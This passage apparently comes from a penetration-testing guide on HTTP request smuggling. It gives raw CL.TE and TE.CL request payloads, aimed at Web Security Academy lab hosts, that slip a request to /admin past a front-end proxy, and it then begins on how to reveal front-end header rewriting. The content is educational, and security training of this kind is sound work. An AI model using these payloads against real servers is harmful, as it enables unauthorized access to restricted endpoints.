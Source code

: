 ## Abusing HTTP Request Smuggling

### To bypass front-end security controls

Some times the **front-end proxies will perform some security checks**. You can avoid them by abusing HTTP Request Smuggling as you will be able to **bypass the protections**. For example, in this example you **cannot access `/admin` from the outside** and the front-end proxy is checking that, but this **proxy isn't checking the embedded request**:

#### CL.TE

`POST / HTTP/1.1  
Host: acb21fdd1f98c4f180c02944000100b5.web-security-academy.net  
Cookie: session=xht3rUYoc83NfuZkuAp8sDxzf0AZIwQr  
Connection: keep-alive  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 67  
Transfer-Encoding: chunked  
  
0  
  
GET /admin HTTP/1.1  
Host: localhost  
Content-Length: 10  
  
x=`

#### TE.CL

`POST / HTTP/1.1  
Host: ace71f491f52696180f41ed100d000d4.web-security-academy.net  
Cookie: session=Dpll5XYw4hNEu09dGccoTjHlFNx5QY1c  
Content-Type: application/x-www-form-urlencoded  
Connection: keep-alive  
Content-Length: 4  
Transfer-Encoding: chunked  
2b  
GET /admin HTTP/1.1  
Host: localhost  
a=x  
0`  
  


### Revealing front-end request rewriting <a id="revealing-front-end-request-rewriting"></a>

In many applications, the **front-end server performs some rewriting of requests** before they are forwarded to the back-end server, typically by adding some additional request headers.  
One common thing to do is to **add to the request the header** `X-Forwarded-For: <IP of the client>` or some similar header so the back-end knows the IP of the client.  
Sometimes, if you can **find which new values are appended** to the request you could be able to **bypass protections** and **access hidden information**/**endpoints**.

